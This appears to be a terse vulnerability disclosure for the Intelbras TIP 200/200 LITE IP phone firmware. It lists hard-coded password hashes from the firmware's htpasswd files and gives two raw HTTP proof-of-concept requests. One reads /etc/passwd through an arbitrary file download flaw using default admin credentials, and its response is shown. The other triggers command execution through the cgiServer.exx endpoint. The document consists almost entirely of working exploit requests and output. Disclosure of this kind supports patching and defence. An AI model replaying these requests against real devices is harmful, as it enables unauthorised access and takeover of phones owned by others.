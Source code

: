 https://www.intelbras.com/pt-br/ajuda-download/download/terminal-ip-tip-200-lite


https://backend.intelbras.com/sites/default/files/integration/60.61.75.22.zip

iso version  60.61.75.22

# TELEFONE IP TIP200/200 LITE


### POC 1、Hard coding

```
factory/.htpasswd

user:s7C9Cx.rLsWFA
admin:uoCbM.VEiKQto
var:jhl3iZAe./qXM

data/htpasswd

admin:1U/4BN3Z1tgDM
user:1U/4BN3Z1tgDM

```

### POC 2、Download any file

```
GET /cgi-bin/cgiServer.exx?download=/etc/passwd HTTP/1.1
Host: xx.xx.xx.xx
Authorization: Basic YWRtaW46YWRtaW4=
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3849.0 Safari/537.36
Accept: */*
Referer: http://xx.xx.xx.xx/cgi-bin/cgiServer.exx?page=Phone-Preference.htm
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
remote_addr: 154.91.1.210
Cookie: __utma=155145144.297897992.1596702813.1596702813.1614070409.2; __utmc=155145144; __utmz=155145144.1614070409.2.1.utmcsr=(direct)|utmccn=(direct)|utmcmd=(none); __utmb=155145144.31.9.1614075605123
Connection: close




HTTP/1.0 200 OK
Content-Type:application/octet-stream
Content-Disposition:attachment; filename="passwd"
Expires:-1
Accept-Ranges:bytes
Server:SIPPhone

root:x:0:0:Root,,,:/:/bin/sh
admin:x:500:500:Admin,,,:/:/bin/sh
guest:x:501:501:Guest,,,:/:/bin/sh

```

### POC3、Code execution

```
GET /cgi-bin/cgiServer.exx?command=writeTextFile(%22/tmp/success.txt%22,%22%22)&sid=0.21719647863281333 HTTP/1.1
Host: xx.xx.xx.xx
Authorization: Basic YWRtaW46YWRtaW4=
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3849.0 Safari/537.36
Accept: */*
Referer: http://xx.xx.xx.xx/cgi-bin/cgiServer.exx?page=Status.htm
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
remote_addr: 154.91.1.210
Cookie: __utma=155145144.297897992.1596702813.1596702813.1614070409.2; __utmc=155145144; __utmz=155145144.1614070409.2.1.utmcsr=(direct)|utmccn=(direct)|utmcmd=(none); __utmb=155145144.2.9.1614070449605
Connection: close

```

